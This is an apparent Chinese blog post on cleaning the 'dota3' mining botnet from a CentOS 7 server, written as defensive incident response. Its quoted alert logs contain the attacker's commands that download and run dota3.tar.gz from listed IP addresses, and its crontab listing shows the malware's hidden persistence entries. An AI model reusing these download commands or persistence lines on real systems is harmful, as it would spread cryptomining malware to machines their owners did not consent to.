 ```yaml
---
layout: post
title: CentOS7 下处理挖矿僵尸网络dota3木马攻击
tags: linux CentOS security
categories: security
---
```

<style type="text/css">
    p{text-indent: 20px}
</style>
<p>凌晨的时候，收到阿里云服务器的告警短信。<span style="color:red">紧急安全事件：访问恶意下载源，访问恶意下载IP。</span> 瞬间惊醒，立刻爬起来处理。</p>

<p>先登录阿里云后台，查看安全中心的告警祥情，发现有几条记录：</p>
```shell
父进程路径：/usr/bin/bash
父进程命令行：sh -c ./tddwrt7s.sh "http://67.205.135.65/dota3.tar.gz" 
"http://91.121.51.120/dota3.tar.gz" "http://51.75.28.134/dota3.tar.gz" 
"http://159.203.17.176/dota3.tar.gz" "http://46.101.113.206/dota3.tar.gz" 
"http://104.131.189.116/dota3.tar.gz" "http://81.12.13.145/dota3.tar.gz" >.out 2>&1 3>&1
```
***
```shell
父进程id：15912
进程id：15913
用户名：user_web
URL链接：http://91.121.51.120/dota3.tar.gz
进程路径：/usr/bin/bash
命令行参数：/bin/bash ./tddwrt7s.sh http://67.205.135.65/dota3.tar.gz 
http://91.121.51.120/dota3.tar.gz http://51.75.28.134/dota3.tar.gz 
http://159.203.17.176/dota3.tar.gz http://46.101.113.206/dota3.tar.gz 
http://104.131.189.116/dota3.tar.gz http://81.12.13.145/dota3.tar.gz
```
***
```shell
父进程路径：/usr/bin/bash
父进程命令行：-bash
父进程id：9071
进程id：9186
用户名：user_web
URL链接：http://45.55.129.23/dota3.tar.gz
进程路径：/usr/bin/wget
命令行参数：wget http://45.55.129.23/dota3.tar.gz
```
***

root账号，登录服务器，排查问题。

查看服务器有无可疑的TCP端口：
$ netstat -lnpt
没有发现非常用端口。

根据告警信息，拿进程id找对应的进程，一个都没有找到。

### 一、立刻做几个操作：
1. 修改web_user密码（当前服务器除了root，就只有web_user授权ssh登录）；
2. 修改root密码，禁止root的ssh登录（只能先登录web_user，再切到root账号）；
3. 清掉/root/.ssh/authorized_keys 里面所有公钥（禁止所有密钥登录）；

然后，再一步步来查。
<p>没有找到对应的进程，看下是不是有crontab，定时执行，执行完进程就退出，找不到告警时的进程id。</p>

### 二、查找服务器所有账号的crontab:
```shell
$ cat /etc/passwd | cut -f 1 -d : |xargs -I {} crontab -l -u {}
...
no crontab for tcpdump
no crontab for ntp
no crontab for saslauth
no crontab for mysql
5 8 * * 0 /home/user_web/.configrc/a/upd>/dev/null 2>&1
@reboot /home/user_web/.configrc/a/upd>/dev/null 2>&1
5 8 * * 0 /home/user_web/.configrc/b/sync>/dev/null 2>&1
@reboot /home/user_web/.configrc/b/sync>/dev/null 2>&1  
0 0 */3 * * /tmp/.X25-unix/.rsync/c/aptitude>/dev/null 2>&1
no crontab for haproxy
...
```
发现了crontab，脚本在user_web目录。

- 立刻删除 /home/user_web/目录下，crontab使用的 和 不认识的隐藏目录。
- 查看是不是user_web账号起的crontab：
```shell
$ crontab  -l -u user_web
5 8 * * 0 /home/user_web/.configrc/a/upd>/dev/null 2>&1
@reboot /home/user_web/.configrc/a/upd>/dev/null 2>&1
5 8 * * 0 /home/user_web/.configrc/b/sync>/dev/null 2>&1
@reboot /home/user_web/.configrc/b/sync>/dev/null 2>&1  
0 0 */3 * * /tmp/.X25-unix/.rsync/c/aptitude>/dev/null 2>&1
```
果然是user_web起的。

- 清理web_user下所有的crontab。
```shell
$ crontab  -r -u user_web
```

### 三、查找还有没有使用user_web账号运行的进程：
```shell
$ ps -ef | grep user_web
user_web      25408     1  0 00:14 ?        00:00:00 /tmp/.X25-unix/.rsync/c/lib/64/tsm --library-path /tmp/.X25-unix/.rsync/c/lib/64/ /tmp/.X25-unix/.rsync/c/tsm64 -t 515 -f 1 -s 12 -S 10 -p 0 -d 1 p ip
root     32695 30901  0 01:06 pts/1    00:00:00 grep --color=auto user_web
```
找到了user_web执行的进程，脚本文件所在的路径，在 /tmp/ 目录下的隐藏文件。

先杀掉进程：
```shell
$ kill -9 25408
```
进入目录：
```shell
$ cd /tmp/
```
进入目录，查看包括隐藏文件在内的所有文件：
```shell
$ ls -la
```
删掉隐藏目录：
```shell
$ rm -rf .X25-unix
```

### 四、根据告警中出现的进程路径/usr/bin/bash，再次查找sh脚本进程：
```shell
$ ps -ef | grep sh
user_web  3768      1  0 00:00 ?      00:00:00 /bin/bash ./go
root      24487     1  0 Mar25 ?      01:53:25 /usr/sbin/sshd -D
user_web  25403 25402  0 00:14 ?      00:00:00 /bin/bash ./tsm -t 515 -f 1 -s 12 -S 10 -p 0 -d 1 p ip
root      30862 24487  0 01:37 ?      00:00:01 sshd: user_web [priv]
user_web  30866 30862  0 01:37 ?      00:00:00 sshd: user_web@pts/1
user_web  30867 30866  0 01:37 pts/1  00:00:00 -bash
root      30901 30896  0 01:38 pts/1  00:00:00 bash
root      31799 30901  0 01:53 pts/1  00:00:00 grep --color=auto sh
```
又找到了几个可疑的进程。查看进程信息，找进程执行路径cwd，对应的执行命令cmd：
```shell
$ ll /proc/25403 
```
找到进程脚本路径，杀掉进程，再删掉脚本文件所在的文件夹：

至此，清理完毕。

### 后续： 加强异地登录的告警，强化账号登录的认证，添加部署谷歌验证器(Google Authenticator) 

>后记，观察几天，再没有收到阿里云的告警信息。


